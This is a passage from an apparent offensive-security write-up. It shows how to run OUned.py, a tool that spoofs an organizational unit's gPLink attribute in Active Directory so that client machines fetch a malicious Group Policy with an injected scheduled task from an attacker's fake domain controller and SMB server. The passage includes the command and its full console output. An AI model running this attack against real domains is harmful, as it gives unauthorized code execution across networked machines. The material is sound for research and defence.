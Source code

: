 The various required configuration elements are described directly in the configuration file. You may have noticed the **smb_mode** variable in the SMB section related to the SMB server delivering malicious GPT files to clients. The **embedded** mode means that an embedded SMB server using NETLOGON to authenticate clients will be used; regarding the **forwarded** mode, see the next section.

It is now possible to run **OUned.py**. As the attack setup is not trivial and requires the adequate configuration of various elements, the tool will begin to **run several sanity checks from the values provided in the configuration file** (except if the `--skip-checks` flag is provided). It will then:

- Set up port 389 forwarding to the dummy domain controller used as a fake LDAP server.
    
- Automatically set the desired values for the GPC hosted on the dummy domain controller.
    
- Prepare the GPT files by cloning the GPO of the dummy domain controller (which may be empty) and injecting an immediate scheduled task with the desired command to be run.
    
- Spoof the **gPLink** attribute of the OU to make clients query the attacker machine for the GPC. Note that **OUned.py** will only create an additional entry to the **gPLink** value, so the expected Group Policy Objects continue to be applied by OU child objects.
    
- Launch the embedded SMB server to deliver GPT files to incoming clients.
    

_# On attacker machine_

```shell
$ sudo python3 OUned.py --config config.ini

=== PERFORMING VARIOUS SANITY CHECKS RELATED TO THE SETUP ===
[+] LDAP computer account OUNED$ valid in target domain.
[+] The DNS record OUNED.corp.com exists and matches the provided attacker IP address (192.168.123.16)
[+] Successfully authenticated to LDAP server with DC account and LDAP machine_password. LDAP and machine account passwords are synchronized.

=== SETTING UP PORT FORWARDING ===
[*] Creating LDAP port forwarding. All traffic incoming on port 389 on attacker machine (192.168.123.16) should be redirected on port 389 of the fake LDAP server (192.168.125.245)
[+] Created port forwarding (192.168.123.16:389 -> 192.168.125.245:389)

=== PERFORMING GPO OPERATIONS (CLONING, INJECTING SCHEDULED TASK, UPLOADING TO SMB SERVER IF NEEDED) ===
[*] Cloning GPO 7B7D6B23-26F8-4E4B-AF23-F9B9005167F6 from fakedc 192.168.125.245.
[+] Successfully downloaded GPO from fakedc to 'GPT_out' folder.
[*] Injecting malicious scheduled task into downloaded GPO
[+] Successfully injected malicious scheduled task.
[*] Modifying gPCFileSysPath attribute of GPO on fakedc to \\192.168.123.16\synacktiv (initial value saved: \\ouned.corp.com\sysvol\ouned.corp.com\Policies\{7B7D6B23-26F8-4E4B-AF23-F9B9005167F6})
[+] Successfully updated gPCFileSysPath attribute of fakedc GPO.
[*] Modifying gPCMachineExtensionNames attribute of GPO on fakedc to [{00000000-0000-0000-0000-000000000000}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{AADCED64-746C-4633-A97C-D61349046527}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}]
[+] Successfully updated extension names of fakedc GPO.
[*] Incrementing fakedc GPO version number (GPC and cloned GPT). This is actually mainly to ensure it is not 0...
[+] Successfully updated GPC versionNumber attribute

=== SPOOFING THE GPLINK ATTRIBUTE OF THE TARGET OU ===
[*] Searching the target OU 'SERVERS'.
[+] Organizational unit found - OU=SERVERS,DC=corp,DC=com.
[*] Retrieving the initial gPLink value to prepare for cleaning.
[*] Initial gPLink is [LDAP://cn={1FD65536-5CEF-4BC4-AD19-FD400427FEAB},cn=policies,cn=system,DC=corp,DC=com;0].
[*] Spoofing gPLink to [LDAP://cn={1FD65536-5CEF-4BC4-AD19-FD400427FEAB},cn=policies,cn=system,DC=corp,DC=com;0][LDAP://cn={7B7D6B23-26F8-4E4B-AF23-F9B9005167F6},cn=policies,cn=system,DC=OUNED,DC=corp,DC=com;0]
[+] Successfully spoofed gPLink for OU OU=SERVERS,DC=corp,DC=com
```